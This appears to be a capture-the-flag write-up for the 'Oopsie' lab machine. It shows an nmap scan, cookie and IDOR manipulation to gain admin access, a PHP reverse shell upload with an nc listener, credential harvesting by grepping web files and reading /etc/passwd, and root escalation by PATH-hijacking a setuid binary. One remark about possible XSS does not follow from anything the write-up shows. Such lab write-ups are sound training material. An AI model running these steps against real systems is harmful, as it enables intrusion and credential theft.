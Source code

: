 # Oopsie
#startingpoint 
#veryeasy 
#web 
#cookie
#php 

### Reconnaissance
The first step in any penetration test is reconnaissance, where we gather information about the target application and its environment. In this case, we used `nmap -p-  $TARGET` to scan the target IP address and identify open ports and services. The output of the Nmap scan is shown below:
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-21 18:17 CET
Nmap scan report for 10.129.104.19
Host is up (0.065s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
From the Nmap output, we can see that the target application is running SSH and HTTP services. We also note that there are 65533 closed TCP ports, which suggests that the target application may have additional services or applications running on those ports that are not visible to us.
### Web Application Analysis

Next, we analyzed the target web application using Burp Suite as a proxy to identify potential vulnerabilities. Even if at first sight the website seems pretty simple, in Burp Suite the sitemap allow us to see that there is a hidden login.

We checked the login that is `/cdn-cgi/login` by accessing `http://10.129.104.19/cdn-cgi/login`.
The login had let us enter as a guest, so we did it to perform a further exploration.

The website have a page for uploading files that we could exploit but we needed superadmin rights to use it, so we checked the cookies finding there a cookie for the role and another one for the user id. As we didn't have the values for the admin cookies we keep searching in the website, this time we find a account info tab that shows us the user id, role and mail. The url of this last tab looks like `http://10.129.104.19/cdn-cgi/login/admin.php?content=accounts&id=2`, so we can try to modify the value of id to 1.

|34322|admin|admin@megacorp.com|

With the new value we get the values we needed to modify the cookies in order to be superadmin. With the superadmin priviledges we uploaded a reverse shell to the website, the one that was used can be found in ParrotOS /usr/share/webshells/php/php-reverse-shell.php`

Once uploaded we need to know how to access it so we can trigger it, to achieve this we perform a enumeration of directories with `gobuster dir -u $TARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.104.19
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2023/11/21 18:44:37 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.129.104.19/images/]
/index.php            (Status: 200) [Size: 10932]                                 
/themes               (Status: 301) [Size: 315] [--> http://10.129.104.19/themes/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.104.19/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.104.19/css/]    
/js                   (Status: 301) [Size: 311] [--> http://10.129.104.19/js/]     
/fonts                (Status: 301) [Size: 314] [--> http://10.129.104.19/fonts/]
```

It will possibly be inside the /uploads directory so before triggering it we start the listener with `nc -lvnp 1234`, now to trigger it we just need to enter into the /uploads/php-reverse-shellp.php. As we get a basic shell we can improve it with `python3 -c 'import pty;pty.spawn("/bin/bash")'`

From the Burp Suite output, we can see that the target application is using a session ID in a cookie. We also note that the login form accepts both username and password input fields. Based on this information, we can infer that the target application may be vulnerable to a cross-site scripting (XSS) attack.

### Lateral movement

As we are using the user www-data which doesn't have privileges, we want to perform a escalation or a lateral movement.
To do so, we start by getting all the available information we can with this user. As the www-data we have permissions on the webcontents files/folders so we go to the default folder for web contents `/var/www/html/` then also we go inside the login folder `/cdn-cgi/login` and inside we perform a search of any kind of password `cat * | grep -i passw*`

```
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />
```
Now we have a password but we don't know the username so we check the contents of  /etc/passwd.
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
robert:x:1000:1000:robert:/home/robert:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```
The user robert is a real one(we know it because of the assigned shell), so we try to login into its account with the password we discovered previously. When testing with `su` we realize that the password isnt the one of robert so we keep looking. Now we check the file `db.php` getting

```
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

```
We test again to login into robert account with the new password and this time we achieve it.

### Privilege escalation
With our brand new account we start checking if we are a sudoer and our ids by running `sudo -l` and `id`

```
[sudo] password for robert: M3g4C0rpUs3r!

Sorry, user robert may not run sudo on oopsie.
```
We are not sudoers

```
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

But we are in a special group, so lets check if there are any special binaries by running `find / -group bugtracker 2>/dev/null`

```
/usr/bin/bugtracker
```

The special group has a file, so we check the special file type and permissions with the command  `ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker`
```
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```

The file has the euid enabled so we can exploit it to escalate privileges, now we run the app to test what it does, apparently it cats a file of our election.

```
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 12
12
---------------

cat: /root/reports/12: No such file or directory
```

A rootcheck  can be performed  if we change the cat exec, to do this we create a fake cat in `/tmp` that calls `/bin/sh`, now we modify our path with the following commands `echo '/bin/sh' > /tmp/cat`  `chmod +x /tmp/cat` `export PATH=/tmp:$PATH`
After running all the commands we test again to run bugtracker, this time it gave us a root terminal.

```
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

# whoami
whoami
root
```